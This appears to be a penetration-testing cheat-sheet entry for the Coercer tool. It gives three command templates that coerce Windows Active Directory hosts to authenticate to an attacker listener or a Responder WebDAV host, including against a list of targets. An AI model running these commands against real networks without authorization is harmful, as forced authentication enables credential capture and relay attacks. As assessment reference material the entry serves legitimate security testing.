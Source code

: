 # coercer

% adcs, certificate, windows, Active directory, template

## coercer - list vulns
#assessment/AD #target/remote #cat/RECON
```
coercer.py -d '<domain>' -u '<user>' -p '<password>' --listener <hackerIp> <targetIp> 
```

## coercer - Webdav
#assessment/AD #target/remote #cat/RECON
```
coercer.py -d '<domain>' -u '<user>' -p '<password>' --webdav-host '<ResponderMachineName>' <targetIp> 
```

## coercer - List vulns many targets
#assessment/AD #target/remote #cat/RECON
```
coercer.py -d '<domain>' -u '<user>' -p '<password>' --listener <hackerIp> --targets-file <PathToTargetFile> 
```

